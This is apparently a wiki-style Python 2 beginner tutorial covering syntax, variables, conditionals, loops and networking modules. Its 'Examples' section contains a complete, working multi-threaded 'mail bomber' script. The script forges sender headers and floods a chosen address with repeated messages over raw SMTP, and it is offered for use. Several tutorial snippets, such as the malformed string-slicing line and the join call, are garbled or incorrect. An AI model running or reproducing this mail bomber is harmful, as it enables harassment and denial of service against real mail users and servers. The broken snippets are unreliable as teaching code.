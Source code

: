 Below applies to Python 2.6 or lower, Python 3 is a good bit different.
Python is an object oriented, interpreted language. It is unique in that it requires a user to indent in place of using curly brackets ({..}).
Note: that most *nix distributions come with Python by default.

## Basics ##

_Basic_ python syntax

### Hello World! ###

    >>> print "HELLO WORLD!"
    HELLO WORLD!

### Variables ###

Variable names DO NOT need to begin with a special character, unlike PHP. Variable names CAN, however, be any combination, as long as the word isn't reserved (Ex: and, or, print), of letters and numbers.
    >>> #Numbers
    >>> a = 1 #Declare A as 1
    >>> b = a+5 #b becomes 6, while a remains 1
    >>> a += 5 #a is overwritten, and becomes 6
    >>> c = b = a #c and b are overwritten and become 6
    >>> #Strings
    >>> a = "Hello "
    >>> b = "There"
    >>> c = a+b #JOIN STRINGS
    >>> a = "Blue Yellow Green Red".split(" ") #Split the string at every " "
    >>> a #Output 'a' to the screen, same as print or print()
    ['Blue', 'Yellow', 'Green', 'Red'] #List object, another type of variable
    >>> _.join(a) #Join all the list objects as one_
    'BlueYellowGreenRed'
    >>> a = 'Blue Green Yellow Red'[0:4] #This returns the sub-string 'Blue'
    >>> a = 'Blue Green Yellow Red'[5:] #This returns the sub-string 'Green Yellow Red'
    >>> a = 'a = 'Blue Green Yellow Red'[::2] #This returns the sub-string _Bu re elwRd'_
    >>> #Float 
    >>> a = 88.2
    >>> b = 88
    >>> print a/25
    3.528
    >>> print b/25
    3
    >>> #Other types
    >>> a = (" ", 355, 256.7, ["Hello", "World"])
    >>> type(a)
    <type 'tuple'>
    >>> a = {"Hello":"World", "Key":"Value"}
    >>> type(a)
    <type 'dict'>
    >>> a = "Anhero"
    >>> del a #Its a good idea, if you're making a 'hidden' script, to delete variables after you use them...

## Statements ##


### Comparison ###

<pre>
 <       Less than
 >       Greater than
 ==      Equal to
 !=      Not equal
 is      Identical
 is not  Not identical
 <=      Less than or equal to
 >=      Greater than or equal to
</pre>


#### If ####

    >>> a = 1
    >>> b = 2
    >>> if a != b:
    	print "No!"
     	
    No!
    >>> a = 1
    >>> b = 1
    >>> if a == b:
    	print "Yes!"
    	
    Yes!
    >>> a = 1
    >>> b = 5
    >>> if (a == b-len("....")/1) and "a" == "a" or "b" == "b":
    	print "Yes!"
     	
    Yes!

### Loops ###


#### While ####

    >>> a = 1
    >>> while a < 5: #Note, replacing '<' with '<=' allows it to reach 5, instead of stopping at 4
    	print a
    	a += 1;
	
    1
    2
    3
    4
    >>> a = False;
    >>> while a == False:
    	print "False"
    	a = True;
    	
    False

#### For ####

    >>> for x in range(0, 10):
    	print x
    	
    0
    1
    2
    3
    4
    5
    6
    7
    8
    9
_consider using xrange when dealing with larger lists, as it creates an iterator, rather than constructing the full list in memory_
    >>> for x in ['Hello', 'world', ',this', 'is', 'a', 'list']:
    	print x
    	
    Hello
    world
    ,this
    is
    a
    list

## Examples ##


### Multi-Threaded Mail Bomber ###
```python
    #CREATED BY: DUMP 
    #MULTI THREADING ALLOWS FOR A CLASS TO BE RUN MULTIPLE TIMES AT ONCE.
    #INCLUDES SMTP ENGINE, AND MAIL HEADER GEN. THAT FOLLOWS RFC STARDARDS
    import socket, datetime, time, threading;
    class MailGen():
        def Engine(self, To, From, Subject, Data):
            self.lf = "\r\n";
            return "From: \""+From.split("@")[0]+"\" <"+From+">"+self.lf+"Return-Path: "+From+self.lf+"Sender: "+From+self.lf+"Recieved: "+From.split("@") [1].capitalize()+":25"+self.lf+"To: \""+To.split("@")[0]+"\" <"+To+">"+self.lf+"Subject: "+Subject+self.lf+"Date:  "+datetime.datetime.now().strftime("%a, %d %d %Y %H:%S")+self.lf+self.lf+Data
    class MailBomb(threading.Thread):
        def __init__(self, To, From, Data):
            self.To = To;
            self.From = From;
            self.Data = Data;
            threading.Thread.__init__ ( self )
        def run(self):
            print "THREAD LAUNCHED";
            self.lf = "\r\n";
            self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
            self.connection.connect((self.To[self.To.index("@")+1:len(self.To)], 25));
            self.connection.send("HELO"+self.lf); self.connection.recv(1024);
            self.connection.send("MAIL FROM: "+self.From+self.lf); self.connection.recv(1024);
            self.connection.send("RCPT TO: "+self.To+self.lf); self.connection.recv(1024);
            self.connection.send("DATA"+self.lf); self.connection.recv(1024);
            for line in self.Data: self.connection.send(line);
            self.connection.send(self.lf+self.lf+"."+self.lf); self.connection.recv(1024);
            self.connection.send("QUIT"+self.lf); self.connection.close();
    address1 = raw_input("To E-mail: ");
    address2 = raw_input("From E-mail: ");
    data1 = raw_input("Subject: ");
    data2 = raw_input("Data: ");
    generator = MailGen();
    message = generator.Engine(address1, address2, data1, data2);
    multiply = int(raw_input("Amount Sent (0, 5, 10...): "));
    lists = [address1]*multiply;
    for a in range(0, multiply, 5):
        for b in range(a, a+5):
            MailBomb(lists[b], address2, message).start();
        time.sleep(.50);
```
## Modules ##


### Scapy ###

Scapy is a powerful, low-level, networking tool

### DPKT ###

fast, simple packet creation / parsing, with definitions for the basic TCP/IP protocols. 

### Twisted ###

[Twisted](http://twistedmatrix.com/trac/) is an event-driven networking engine written in Python and licensed under the MIT license.

### Tornado Web ###

[Tornado](http://www.tornadoweb.org/) is an open source version of the scalable, non-blocking web server and tools that power FriendFeed. The FriendFeed application is written using a web framework that looks a bit like web.py or Google's webapp, but with additional tools and optimizations to take advantage of the underlying non-blocking infrastructure.

## Links ##

[Python Documentation](http://docs.python.org/)
[Download Python](http://www.python.org/download/)

